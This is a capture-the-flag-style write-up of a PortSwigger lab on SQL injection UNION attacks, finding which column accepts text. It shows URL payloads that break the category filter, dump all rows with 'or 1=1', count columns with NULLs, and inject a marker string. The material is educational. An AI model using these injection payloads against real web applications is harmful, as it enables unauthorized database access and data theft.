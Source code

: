 
# SQL injection UNION attack, finding a column containing text

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

---------------------------------------------

Reference: https://portswigger.net/web-security/sql-injection/union-attacks

---------------------------------------------

We see there are 2 values displayed in the table, the name and the price of the products:



![img](images/SQL%20injection%20UNION%20attack,%20finding%20a%20column%20containing%20text/1.png)


We find these payload are valid to display the 4 items in Accessories and all the items:

```
/filter?category=Accessories'--
/filter?category=Accessories'+or+1=1--
```

Also, that there are 3 columns returned by the query and we can do a UNION attack with:

```
/filter?category=Accessories'+union+all+select+NULL,NULL,NULL--
```


We can print the string Qrc0Pq setting this string in the second value of the attack:

```
/filter?category=Accessories'+union+all+select+'0','Qrc0Pq','1234'--
```



![img](images/SQL%20injection%20UNION%20attack,%20finding%20a%20column%20containing%20text/2.png)
